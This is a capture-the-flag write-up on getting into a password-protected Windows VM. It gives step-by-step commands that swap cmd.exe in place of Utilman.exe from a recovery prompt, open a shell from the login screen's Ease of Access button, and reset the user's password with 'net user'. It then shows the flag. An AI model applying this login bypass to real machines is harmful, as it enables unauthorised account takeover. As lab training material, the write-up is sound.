







# Find the hidden code (Writeup)

The challenges give the VM file for enumerate to get the flag.

Started with opening the VM file in Virtual Machine.

The Windows user "APU-BOH2018" have password.

We using the method using **Windows recovery image** for turn on the **Command Prompt (CMD)**. 

After that change directory to **System32** by applied following command:

+ cd D:\Windows\System32\

)

After change directory, Change the Command Prompt file to **Ease of Access** to open the shell on user Windows page.

To change the Command Prompt file by applied following command:

+ ren Utilman.exe Utilman.exe.bak
+ ren cmd.exe Utilman.exe

After that, restart the Windows to open the Command Prompt by applied following command:

+ wpeutil reboot

After restart the Windows, click the Ease of Access.

To show the User profile in Windows by applied following command:

+ net user

To change the password of user "APU-BOH2018" by applied following command:

+ net user APU-BOH2018 *

After that restart again and try login. It's should get the "Flag" on the Desktop.

passwords_are_useless@apuboh2018

**TIMEQUARTZER**

